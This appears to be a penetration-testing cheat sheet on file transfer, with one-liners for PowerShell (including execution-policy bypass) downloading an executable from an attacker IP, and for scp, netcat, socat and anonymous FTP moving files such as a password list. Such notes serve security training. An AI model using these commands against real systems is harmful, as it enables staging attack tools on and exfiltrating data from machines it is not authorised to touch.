 ### Using third-party file sharing links
https://www.file.io/

### Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" 
powershell -nop -Exec Bypass -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

### SCP Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### FTP(permitted commands:ls,mkdir,put file, get file)
```
anonymous login: ftp ip; username:anonymous;password:blank; 
ascii mode: ascii
binary mode: bin
```
